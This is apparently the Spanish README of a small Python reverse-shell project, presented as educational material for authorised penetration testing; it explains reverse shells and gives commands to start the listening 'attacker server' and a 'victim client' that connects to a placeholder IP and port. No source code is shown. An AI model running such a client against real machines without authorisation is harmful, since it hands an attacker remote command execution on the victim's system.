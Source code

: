 # reverseShellPython

**reverseShellPython** es una implementación básica de una shell inversa escrita en Python. Este proyecto tiene como finalidad servir como recurso educativo para entender cómo funciona una conexión de shell remota en auditorías de seguridad informática.

> ⚠️ **Advertencia**: Este código es solo para fines educativos o pruebas de penetración autorizadas. El uso no autorizado de este software contra sistemas ajenos puede ser ilegal y es responsabilidad exclusiva del usuario.

## ¿Qué es una shell inversa?

Una **shell inversa** es una técnica común en pruebas de penetración en la que una máquina víctima establece una conexión saliente hacia el atacante, dándole control remoto limitado a través de una terminal.

## Características

- Comunicación TCP entre el "cliente víctima" y el "servidor atacante".
- Ejecuta comandos en el sistema remoto y devuelve la salida.
- Código simple y fácil de entender para propósitos educativos.

## Requisitos

- Python 3.x
- Acceso a red entre el cliente y el servidor

## Uso

### 1. Servidor (escucha y controla)

```bash
python3 server.py

python3 client.py <IP_del_servidor> <puerto>
